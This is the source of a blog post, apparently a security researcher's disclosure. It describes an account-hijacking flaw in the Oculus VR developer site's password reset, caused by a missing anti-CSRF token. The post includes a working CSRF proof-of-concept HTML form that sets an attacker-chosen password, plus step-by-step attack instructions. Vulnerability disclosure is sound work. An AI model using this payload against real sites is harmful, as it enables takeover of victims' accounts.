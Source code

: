 ```yaml
---
layout: post
title: OCULUS VR account hijacking via password reset vulnerability
excerpt: "Oculus VR is a virtual reality technology company founded by Brendan Iribe and Palmer Luckey. Their first product, still in development, is the Oculus Rift, a head-mounted display for immersive virtual reality(VR). In March 2014,Facebook agreed to acquire Oculus VR for US$2 billion in cash and Facebook stock.

While testing the forgot password functionality of oculusVR .I have found that it's possible to abuse this functionality.
Here is a algorithm how the reset password functionality of oculus VR works.
"
categories: [Logic Flaw, Hijacking]
comments: true
---
```



Oculus VR is a virtual reality technology company founded by Brendan Iribe and Palmer Luckey. Their first product, still in development, is the Oculus Rift, a head-mounted display for immersive virtual reality(VR). In March 2014,Facebook agreed to acquire Oculus VR for US$2 billion in cash and Facebook stock.

While testing the forgot password functionality of oculusVR. I have found that it's possible to abuse this functionality.
Here is a algorithm how the reset password functionality of oculus VR works.

{% highlight text %}
if (user is log in){
//the app will not use auth parameter which is a reset password passcode. Then change the password of the user who is currently log in.

}
else{
//if the user is not log in ,oculus uses the auth parameter to identify which account to be reset.

}
{% endhighlight %}

![passw](https://4.bp.blogspot.com/-tAuAQSsCwO4/U_LD_b0AOnI/AAAAAAAAAQs/hotORflSwzY/s1600/check1.png)
*Although I am log in, password reset page still can be viewed.*


The main problem here is oculusVR does not have an ANTI-CSRF token on reset password functionality. :) the only need to hijack an oculusVR account is an attacker reset password link token. Combining the CSRF vulnerability and weird behavior of password reset page will be resulted in **Account Hijacking vulnerability**.

###  Sample CSRF PoC

{% highlight text %}
<body>
<form action="https://developer.oculusvr.com/core/UserAction.php" method="POST">
<input type="hidden" name="action" value="changepassword" />
<input type="hidden" name="auth" value="your_reset_token" />
<input type="hidden" name="newpassword" value="attackerpassword" />
<input type="hidden" name="confirmpassword" value="attackerpassword" />
<input type="submit" value="Submit request" />
</form>
</body>
{% endhighlight %}
To get the value of auth parameter you must request a reset password link on this link https://developer.oculusvr.com/lostpassword.

### HACK STEPS
* Attacker requests a reset password link
* Makes a CSRF PoC attack with reset token
* Sends the CSRF PoC link to his victim
* If the victim clicks that link his password will be changed!
